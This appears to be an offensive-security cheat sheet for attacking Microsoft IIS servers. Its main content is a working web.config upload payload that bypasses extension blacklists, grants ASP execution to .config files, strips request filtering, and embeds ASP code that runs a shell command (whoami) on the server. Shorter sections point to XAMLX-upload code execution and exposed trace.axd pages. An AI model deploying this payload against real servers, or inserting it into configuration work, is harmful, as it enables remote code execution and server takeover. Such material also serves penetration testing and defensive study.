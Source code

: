 IIS
===

## Bypass blacklist upload

It's possible to bypass blacklist upload while uploading a `web.config` file.
For this, you need to set execution rights to `.config` and then adding `ASP` code
in the `web.config`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```


## Upload XAMLX file to get RCE

[NCCGroup](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/august/getting-shell-with-xamlx-files/)
describes how to upload a `XAMLX` file to execute code on a remote IIS server.


## Tracing

[Tracing](https://docs.microsoft.com/en-us/previous-versions/dotnet/articles/ms972204(v=msdn.10)?redirectedfrom=MSDN)
might be activate on the server. For example, check `/trace.axd`.
